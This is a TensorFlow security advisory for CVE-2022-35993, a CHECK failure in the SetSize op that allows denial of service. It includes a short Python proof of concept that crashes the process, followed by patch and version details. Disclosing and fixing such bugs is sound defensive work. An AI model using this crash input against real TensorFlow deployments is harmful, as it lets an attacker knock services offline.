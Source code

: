 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-127.md
## TFSA-2022-127: `CHECK` fail in `SetSize`

### CVE Number
CVE-2022-35993

### Impact
When `SetSize` receives an input `set_shape` that is not a 1D tensor, it gives a `CHECK` fails that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
arg_0=1
arg_1=[1,1]
arg_2=1
arg_3=True
arg_4=''
tf.raw_ops.SetSize(set_indices=arg_0, set_values=arg_1, set_shape=arg_2,
                   validate_indices=arg_3, name=arg_4)
```

### Patches
We have patched the issue in GitHub commit [cf70b79d2662c0d3c6af74583641e345fc939467](https://github.com/tensorflow/tensorflow/commit/cf70b79d2662c0d3c6af74583641e345fc939467).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
